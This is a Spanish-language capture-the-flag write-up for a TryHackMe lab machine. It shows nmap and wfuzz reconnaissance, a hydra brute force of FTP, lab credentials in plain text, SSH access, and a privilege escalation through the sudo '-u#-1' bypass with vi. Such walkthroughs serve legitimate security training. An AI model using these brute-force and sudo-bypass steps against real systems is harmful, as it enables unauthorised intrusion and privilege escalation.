


Empezaremos la máquina haciendo este nmap: sudo nmap -sC -sV 10.10.245.81 -oN nmap

 
Haremos haremos fuzzing con este comando:
wfuzz -c -L --sc=200,301 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.245.81/FUZZ 
Y encontramos un directorio interesesante que se llama assets:

 
Y entramos en style.css y vemos cosas pero nada interesante.

Ahora tenemos que deshabilitar el javascript, para ello ponemos esto en Firefox:

 
Y luego doble click en javascript enable y lo ponemos en falso.

 
Ahora nos vamos a esta ruta: 10.10.245.81/WExYY2Cv-qU 
Y nos sale esto: 

 

Nos descargamos la imagen y le hacemos un strings:

 
Y sacamos el usuario del ftp:

 
Y ahora nos copiamos todo el texto que nos da a un fichero (wordlist.txt)

 
Y ahora haremos fuerza bruta para adivinar la contraseña del ftp:
hydra -l ftpuser -P wordlist 10.10.245.81 ftp (con este comando)

 
y ya tenemos la contraseña: 
[21][ftp] host: 10.10.245.81   login: ftpuser   password: 5iez1wGXKfPKQ 
Ahora entramos por ftp con el usuario y contraseña:

 
Ahora hacemos un ls y un get Eli's_Creds.txt.

 
Nos vamos a brainfuck decoder y sacamos esto:

 
User: eli
Password: DSpDiM1wAEwid
Y entramos con ssh con esas credenciales:

 
Ahora ponemos este comando en ssh:
find / -name 's3cr3t' 2>/dev/null
Ahora nos vamos a la ruta esa que nos ha dado el find y hacemos un ls -al para ver los ocultos:

 
Ahora entramos con el usuario Gwendoline y la contraseña esa:

 
Ahora hacemos un sudo -l y hacemos un cat y tenemos la primera flag: THM{****************}

 
Ahora metemos este comando: sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
Y ejecutamos eso:

 
Y ahora haremos esto:

 
Y ya tenemos la flag:
THM{*************} 
